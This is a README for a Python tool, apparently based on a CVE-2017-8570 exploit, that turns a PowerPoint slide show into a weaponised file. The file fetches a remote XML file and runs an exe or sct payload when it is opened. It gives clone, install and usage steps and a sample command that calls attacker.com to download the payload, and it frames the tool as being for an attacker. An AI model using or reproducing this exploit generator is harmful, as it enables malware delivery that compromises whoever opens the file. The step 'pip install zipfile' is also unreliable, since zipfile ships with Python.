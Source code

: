 # Introduction
By Temesgen Yibeltal temu1yibeltal@gmail.com (Based on code by https://github.com/bhdresh/CVE-2017-8570 (now removed))

.ppsx-file-generator is a python tool that generates a power point slide show file that executes code from a remote source based on an existing file.

# What does it do?

The tool generates a power point slide show file and an xml file based using the input provided. The power point file accesses the xml file which holds information of the payload file. An attacker could serve the xml file and the payload on a local or public server and provide the url for each as input.

# Getting the code

First, get the code:
```
git clone https://github.com/temesgeny/.ppsx-file-generator.git
```

ppsx-file-generator is written in Python and requires zipfile which can be installed using Pip:
```
pip install zipfile
```
Requires Microsoft Office Power Point to  carry out this task.

# Usage
First open Microsoft Office Power Point and open 'template.ppsx'. Open your own presentation file and copy the icon 'Coder.exe' from template.ppsx to slide 1 of your power point file. Save the file as Power Point Show (.ppsx). Then use the python tool as

        Usage: generate_ppsx.py input_filename -o output_filename -p payload_uri -x xml_uri

        input_filename          The input ppsx file name.

        -o              Output .ppsx file name, (inlcude the .ppsx).
        -p              The payload exe or sct file url. It must be in an accessible web server. (Optional)
        -x              The full xml uri to be called by the ppsx file. It must be in an accessible web server.(Required)

```
python generate_ppsx.py -o output.ppsx -p http://attacker.com/payload.exe -x http://attacker.com/content.xml input.ppsx
Generated content.xml successfully
Generated output.ppsx successfully
```
